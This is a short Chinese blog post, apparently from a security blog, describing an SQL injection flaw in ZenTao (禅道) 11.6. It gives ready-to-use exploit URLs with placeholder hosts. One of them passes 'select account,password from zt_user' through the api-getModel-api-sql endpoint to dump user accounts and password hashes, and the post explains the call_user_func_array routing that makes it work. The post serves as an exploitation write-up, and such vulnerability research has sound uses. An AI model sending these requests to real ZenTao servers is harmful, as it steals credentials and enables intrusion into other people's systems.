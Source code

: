 ```yaml
---
layout: post
title: "禅道11.6SQL注入漏洞"
subtitle: 'SQL注入'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```


# 漏洞利用过程

漏洞URL：

```
http://xxx.xxx/zentaopms_11.6/www/api-getModel-user-getRealNameAndEmails-users=admin
http://xxx.xxx/zentaopms_11.6/www/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

禅道目前最新版所采用的pathinfo模式，首先通过传参确定进入的control文件为api，对应的method为getModel，接着开始对参数进行赋值，其中moduleName为api，methodName=sql，最后的param为sql=select+account,password+from+zt\_user，那么调用了call\_user\_func\_array函数后，会进入到api目录下的model文件，对应调用其中的sql函数，并通过赋值，将sql变量赋值为select+account,password+from+zt\_user，最后执行query语句。